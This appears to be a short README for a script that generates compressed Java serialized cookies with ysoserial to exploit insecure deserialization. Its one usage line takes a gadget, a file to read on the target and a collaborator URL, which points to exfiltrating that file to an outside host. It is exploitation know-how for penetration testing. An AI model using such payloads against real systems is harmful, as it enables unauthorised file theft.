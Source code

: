 # gen_java_compressed_cookie
Generation of a compressed java serialized cookie to read the given file when insecure deserialization.  
A copy of `ysoserial-all.jar` (from https://github.com/frohoff/ysoserial) has to be in the same directory!

## Usage
```
./gen_payload_cookie.sh <GADGET> <FILE_TO_READ> <COLLABORATOR_URL>
```
